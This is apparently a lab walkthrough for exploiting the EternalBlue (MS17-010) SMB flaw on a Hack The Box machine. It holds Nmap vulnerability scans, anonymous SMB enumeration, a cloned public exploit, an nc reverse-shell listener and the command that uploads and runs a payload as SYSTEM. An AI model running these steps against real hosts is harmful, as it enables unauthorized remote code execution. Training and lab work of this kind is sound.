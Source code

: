 # EternalBlue

## EternalBlue

MS-17-010, also known as ETERNALBLUE, is an unauthenticated remote code execution vulnerability in Windows SMB that was made famous by the Shadow Brokers' publication and use in May 2017 WannaCry worm.

Metasploit's MS17-010 exploits are far more stable than their Python script counterparts. If you're doing this in the real world, Metasploit is a great tool to use.

## Enumeration

We can use Nmap** vuln nse scripts** to find vulnerable versions of SMB:

```
❯ sudo nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 12:10 EDT
Nmap scan report for 10.10.10.40
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds
```

## Exploitation

### Manually - NO Metasploit

**SMB Authentication:**

**smbclient **doesn't error out:

```
❯ smbclient -N -L //10.10.10.40/Share

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
```

**smbmap **needs a **user **or a **password **string to authenticate for some reason:

```
❯ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445	Name: 10.10.10.40
❯ smbmap -u 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
❯ smbmap -p 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
```

#### Exploit

Worawit has the greatest MS17-010 Python scripts I've seen. These are effective, but they are a little difficult to use. That project was forked by helviojunior, who included a single send and execute.py file, which is quite useful. It's just an updated version of the original zzz exploit.py script, with the addition of the ability to upload a file and run it as system.

```
git clone https://github.com/helviojunior/MS17-010
```

**Credentials Update**

Just like with `smbmap`, when we try to run this with username as an empty string, it won’t authenticate. However, if we just add any string into the username, it will then work.

Modify the exploit, add any string to the username variable:

![send\_and\_execute.py USERNAME variable](../.gitbook/assets/image.png)

### Exploit manually&#x20;

Set a listener with **nc**:

```
sudo rlwrap nc -lvnp 443
```

Then execute the exploit with:

```
~/htb/blue/MS17-010 master* 26s
impacket-venv ❯ python send_and_execute.py 10.10.10.40 rev.exe
```





